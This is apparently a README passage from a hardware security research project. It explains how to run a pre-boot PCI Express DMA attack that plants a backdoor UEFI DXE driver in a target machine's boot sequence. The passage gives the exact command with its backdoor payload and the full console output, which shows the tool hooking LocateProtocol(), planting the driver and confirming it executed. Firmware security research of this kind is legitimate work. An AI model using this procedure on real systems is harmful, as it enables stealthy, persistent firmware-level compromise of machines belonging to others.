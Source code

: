 ```

00000000: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................
00000010: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................

```

To perform pre-boot DMA attack and inject arbitrary UEFI DXE driver into the victim machine boot sequence you can use `python/uefi_backdoor_simple.py` program with test payload as UEFI DXE driver located in `python/payloads/DmaBackdoorSimple`. You need to turn off the target system, run `python/uefi_backdoor_simple.py`, then turn on the target system and wait for loading of the payload:

```
$ sudo ./uefi_backdoor_simple.py -p payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[+] Reading DXE phase payload from payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a440000
[+] PE image is at 0x79fc0000
[+] EFI_SYSTEM_TABLE is at 0x7a03b018
[+] EFI_BOOT_SERVICES is at 0x7a38ca30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3957b4
Backdoor image size is 0x1520
Backdoor entry RVA is 0x5cc
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3957b4 -> 0x000c05cc
3.233141 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```

For more information about pre-boot DMA attacks check out [PCI Express DIY hacking toolkit](https://github.com/Cr4sh/s6_pcie_microblaze) project documentation.
